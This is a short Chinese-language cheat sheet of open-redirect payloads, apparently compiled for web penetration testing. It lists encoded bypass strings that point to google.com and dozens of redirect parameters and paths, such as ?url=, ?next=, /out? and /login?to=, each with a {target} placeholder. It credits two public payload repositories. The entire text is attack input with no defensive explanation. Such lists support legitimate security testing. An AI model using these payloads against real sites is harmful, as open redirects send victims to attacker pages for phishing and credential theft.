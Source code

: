 ## 开放的重定向

```
/%09/google.com
```

```
/%5cgoogle.com
```

```
//www.google.com/%2f%2e%2e
```

```
//www.google.com/%2e%2e
```

```
//google.com/
```

```
//google.com/%2f..
```

```
//\google.com
```

```
/\victim.com:80%40google.com
```

## 可能的开放重定向参数

```
?url=http://{target}
```

```
?url=https://{target}
```

```
?next=http://{target}
```

```
?next=https://{target}
```

```
?url=https://{target}
```

```
?url=http://{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?next=//{target}
```

```
?next=$2f%2f{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?url=//{target}
```

```
/redirect/{target}
```

```
/cgi-bin/redirect.cgi?{target}
```

```
/out/{target}
```

```
/out?{target}
```

```
/out?/{target}
```

```
/out?//{target}
```

```
/out?/\{target}
```

```
/out?///{target}
```

```
?view={target}
```

```
?view=/{target}
```

```
?view=//{target}
```

```
?view=/\{target}
```

```
?view=///{target}
```

```
/login?to={target}
```

```
/login?to=/{target}
```

```
/login?to=//{target}
```

```
/login?to=/\{target}
```

```
/login?to=///{target}
```



**重定向Payloads** by @cujanovic

https://github.com/cujanovic/Open-Redirect-Payloads

**重定向参数** by @fuzzdb-project

https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/redirect/redirect-urls-template.txt

